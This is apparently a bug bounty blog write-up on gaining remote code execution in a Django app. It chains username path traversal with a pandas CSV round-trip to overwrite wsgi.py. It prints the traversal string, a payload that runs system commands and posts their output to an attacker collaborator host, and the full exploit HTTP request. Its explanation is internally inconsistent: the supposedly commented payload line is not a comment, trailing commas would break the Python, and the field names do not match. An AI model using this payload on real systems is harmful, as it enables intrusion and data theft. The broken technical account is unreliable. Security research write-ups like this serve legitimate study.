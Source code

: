 ```yaml
---

title: "How I Chained Directory Traversal and CSV Parser Abuse for RCE in a Django App"
date: 2025-06-16
categories: [security, django, rce]
tags: [bugbounty, csv, traversal, django, rce]

---
```


While testing a web application as part of a bug bounty program, I uncovered a critical RCE vulnerability by chaining directory traversal with a subtle CSV parsing abuse. The exploit chain involved a combination of directory traversal and subtle abuse of how the application used the `pandas` CSV parser, ultimately allowing me to overwrite the `wsgi.py` file and execute arbitrary code server-side.

## Application Behavior

The vulnerable endpoint allowed users to upload CSV files, process them using `pandas`, and save the result to disk. The target function looked something like this:

```python

        username = request.data.get("username")
        fleet_file = request.FILES.get("csv_file")
        temp_path = f"/tmp/{fleet_file.name}"
        with open(temp_path, "wb") as out_file:
            for chunk in fleet_file.chunks():
                out_file.write(chunk)

        # Parse uploaded CSV
        df = pandas.read_csv(temp_path)

        # Determine output path
        base_dir = Path(__file__).resolve().parent.parent
        save_dir = os.path.join(base_dir, "data_store", username)
        os.makedirs(save_dir, exist_ok=True)

        final_path = os.path.join(save_dir, fleet_file.name)
        if os.path.exists(final_path):
            os.remove(final_path)
        df.to_csv(final_path, index=False, encoding="utf-8")
        return Response({"status": "success"}, status=200)
    except Exception as e:
        return Response({"error": str(e)}, status=500)

```

There are two key observations here:

- The `username` field is directly used in the filesystem path without sanitization.
- The `pandas.read_csv()` and `df.to_csv()` roundtrip occurs before saving the file.

This setup made it possible to craft a payload that hijacks the file write location and executes code on the system.

## From Path Traversal to File Overwrite

The `username` field was trusted and used to construct a path like `data_store/<username>/file.csv`. I simply submitted a value like:

```
../../../../../../app/backend/backend/

```

As a result, the application wrote my uploaded file to:

```
/app/backend/backend/file.csv
```

## Crafting a Valid Payload Through CSV

The hard part was getting code into `wsgi.py` without triggering a syntax error. The app parses the file with `pandas.read_csv()` and then re-serializes it with `to_csv()`. This means my uploaded file would be rewritten before it landed in `wsgi.py`.

Here’s what `pandas.to_csv()` does:

- Writes headers by default.
- Pads rows with commas to match the maximum column count.
- Writes each cell value as a string, potentially quoting it.

So I needed my payload to:

1. Avoid being mangled during CSV parsing.
2. Still be valid Python after extra commas were appended.

The trick was to put my malicious line in a comment using `#`. This didn’t hide it from pandas—it parsed it like any other row—but ensured that any trailing junk added by `to_csv()` would be ignored by Python when the file ran. 
Python ignores everything after a `#` on a line, so even if `pandas.to_csv()` appends extra commas or whitespace, they’re treated as part of the comment and discarded by the interpreter.

Here’s the actual payload line embedded in a seemingly innocent CSV:

```python
# VALID CSV DATA
import os,requests;from django.core.wsgi import get_wsgi_application;os.environ.setdefault('DJANGO_SETTINGS_MODULE','backend.settings');r=os.popen('whoami&&id&&hostname').read();requests.post('<http://attacker.burpcollaborator.net>',data={'r':r});application = get_wsgi_application();,,,,,

```

After going through pandas’ processing, it still looked like a comment line to Python, with enough real logic inside to get code execution and reassign `application`, satisfying Django’s expectations.

## Picking the Right Target for Code Execution

At this stage, the file overwrite was working — but to escalate it to RCE, I needed to identify a file that the application would **automatically load or execute after modification**, since I had **no direct ability to invoke the overwritten file manually**. This meant finding a server-side script that Django would re-import or re-run implicitly on access. That led me to `wsgi.py`.

## Why `wsgi.py`?

From the [WSGI specification](https://wsgi.readthedocs.io/en/latest/), the `wsgi.py` file exists to expose a callable named `application` that acts as the entry point for the web server to interact with a Python app. In Django, this is typically done using:

```python
from django.core.wsgi import get_wsgi_application
application = get_wsgi_application()

```

During testing, a verbose error message gave away the project’s file structure. The traceback included a path like:

```
/app/backend/backend/
```

This nested layout is exactly what you get when a Django app is created using `django-admin startproject backend` — where the outer `backend/` is the project root and the inner one holds settings, `wsgi.py`, and other core files.

That made `wsgi.py` the perfect target. I couldn’t *run* arbitrary files, only overwrite them — so I needed something the server would execute on its own. Django’s development server watches `wsgi.py` for changes and automatically reloads it when modified. That meant just touching the file was enough to trigger execution. By placing my payload inside a Python comment and ending with a clean `application = get_wsgi_application()` line, I preserved the structure Django expected while slipping in remote code execution.

## Final Exploit Request

Here’s the trimmed HTTP request used to achieve the overwrite:

```http

POST /api/endpoint HTTP/1.1
Host: target.url
Content-Type: multipart/form-data; boundary=---------------------------boundary
Cookie: session=...

-----------------------------boundary
Content-Disposition: form-data; name="fleet_csv"; filename="wsgi.py"
Content-Type: text/csv

# VALID CSV DATA
import os,requests;from django.core.wsgi import get_wsgi_application;os.environ.setdefault('DJANGO_SETTINGS_MODULE','backend.settings');r=os.popen('whoami&&id&&hostname').read();requests.post('<http://attacker.burpcollaborator.net>',data={'r':r});application = get_wsgi_application();,,,,,

-----------------------------boundary
Content-Disposition: form-data; name="report_date"

2025-01-01
-----------------------------boundary
Content-Disposition: form-data; name="username"

../../../../../../app/backend/backend/
-----------------------------boundary--

```

The response confirmed success:

```json
{"status": "success"}
```

Seconds later, my server received the callback with command output.

## Conclusion

This exploit was possible due to:

- Unsanitized use of user input in filesystem paths.
- Unsafe file parsing and rewriting with `pandas`.
- Django’s auto-reloading behavior in debug mode.

By combining these behaviors, I was able to go from a basic file upload to full RCE on the server. The real lesson here is that even something as seemingly harmless as CSV parsing can become dangerous in the wrong context—especially when paired with filesystem access and auto-executing server files.